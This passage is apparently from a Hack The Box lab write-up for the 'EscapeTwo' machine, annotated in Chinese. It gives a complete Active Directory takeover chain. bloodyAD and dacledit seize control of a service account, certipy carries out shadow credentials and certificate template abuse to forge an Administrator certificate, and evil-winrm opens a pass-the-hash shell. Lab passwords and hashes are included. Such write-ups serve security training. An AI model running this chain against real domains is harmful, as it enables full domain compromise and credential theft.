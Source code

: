 将用户 ryan 设置为用户 ca_svc 的所有者
`bloodyAD --host dc01.sequel.htb -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan`
为用户 ryan 添加对目标 ca_svc 对象的完全控制权限
`dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target 'ca_svc' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3'`
通过滥用 AD CS 的 Shadow Credentials 功能，以 ca_svc 帐户的身份生成证书凭据，从而进行模拟。
`certipy-ad shadow auto -u ryan@sequel.htb -p 'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51 -ns 10.10.11.51 -target dc01.sequel.htb -account ca_svc`
查找域控制器（dc01.sequel.htb）中的可滥用证书模板。
特别是定位具有安全漏洞（如误配置的权限）的证书模板，为后续请求伪造证书提供支持。
`KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad find -scheme ldap -k -debug -target dc01.sequel.htb -dc-ip 10.10.11.51 -vulnerable -stdout`
通过指定的证书模板 DunderMifflinAuthentication，滥用证书签名功能。
生成可用于模拟用户（如管理员）的证书。
`KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.10.11.51`
请求证书服务（sequel-DC01-CA）签发证书。
使用目标模板 DunderMifflinAuthentication，并生成包含管理员 UPN 的证书（Administrator@sequel.htb）。
最终目标是利用证书伪造身份登录。
`certipy-ad req -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target dc01.sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51`
`certipy-ad req -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target DC01.sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51`
使用生成的 PFX 文件（包含管理员证书）进行身份验证。
验证后可获得管理员权限，执行其他操作。
`certipy-ad auth -pfx ./administrator_10.pfx -dc-ip 10.10.11.51`
Then we got
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/EscapeTwo]
└─$ certipy-ad auth -pfx ./administrator_10.pfx -dc-ip 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:
    [0] UPN: 'Administrator@sequel.htb'
    [1] DNS Host Name: '10.10.11.51'
> 0
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
```
That means we can use evil-winrm to get the Administrator shell
`evil-winrm -i dc01.sequel.htb -u administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff `

